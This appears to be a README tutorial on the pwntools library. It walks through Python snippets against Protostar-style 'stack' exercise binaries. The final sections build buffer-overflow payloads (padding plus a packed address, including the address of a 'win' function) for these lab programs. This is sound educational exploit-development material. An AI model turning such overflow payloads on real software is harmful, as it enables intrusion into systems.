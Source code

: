# PWNTools with Examples


<details>
	<summary>:heavy_check_mark: Executing an Application</summary>
	<p>

![img](assets/1-app-exec.png)

- Code
```py
# importing the module
from pwn import *

# specifying the binary location
elf = ELF("./stack0")

# executing the binary
p = elf.process()
```
</p>
</details>


<details>
	<summary>:heavy_check_mark: Providing input for the application and obtaining the output</summary>
	<p>

![img](assets/2-inop-from-app.png)

- Code
```py
from pwn import *
elf = ELF("./stack0")
p = elf.process()

# send input to the application with \r\n at the end
p.sendline(bytes("aaaaaa", 'latin-1')) # need to send in encoded format, since unicode may convert address values to some other characters. 'Latin-1' encoding is used

# recieve the output form the application until the EOF character, $ can be replaced with anything the is a part of the applications output
# p.recvuntil('$') 
# p.recvall() # recives all the output from the application, since the output will be in the format we need to decode it to obtain normal format
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/2-inop-script.png)

</p>
</details>

<details>
	<summary>:heavy_check_mark: Passing arguments to the application</summary>
	<p>

![img](assets/3-arg-pass.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# procvide the argument in a list format, if there are multiple arguments provide like [arg1, arg2, .....argn]
p = elf.process(['ls'])

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/3-arg-pass-script.png)

	</p>
</details>

<details>
	<summary>:heavy_check_mark: Packing the address</summary>
	<p>

![img](assets/4-address-pack.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# creating a payload which fills the buffer and writes the target address in little endian format
# there are options like p16(), p32(), p64() packing options required for 16bit, 32bit and 64bit binaries respectively
# the p32() is of bytes type so the payload / the characters which will be appeded with the target value must be in bytes format
payload = b"a"*64 + p32(0x61626364)

p = elf.process([payload])
print(str(p.recvall(),'utf-8'))

```

- Script Output
![img](assets/4-address-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Executing with environment variables set </summary>
<p>

![img](assets/5-env-var.png)

- Code
```py
from pwn import *
elf = ELF("./stack2")

# setting environment variable on the executing phase, environment variables takes the dict data type "env={key1:value1, key2:value2,......keyn:valuen}"
p = elf.process(env={"GREENIE":'test'})

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/5-env-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Finding address of a function </summary>
<p>

![img](assets/6-win-address.png)

- Completing the exercise with the found value
![img](assets/6-man-win.png)

- Code
```py
from pwn import *
# from pprint import pprint
elf = ELF("./stack3")

# display all the functions in the binary
# print(elf.symbols)
# print functions information in a pretty way
# pprint(elf.symbols)

# obtain a deciaml value of a specific funciton in the binary
win = elf.symbols['win']

# crafting payload, packing the decimal value as address
payload = b"a"*64 + p32(win)

p = elf.process()
p.sendline(payload)
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/6-win-script.png)

</p>
</details>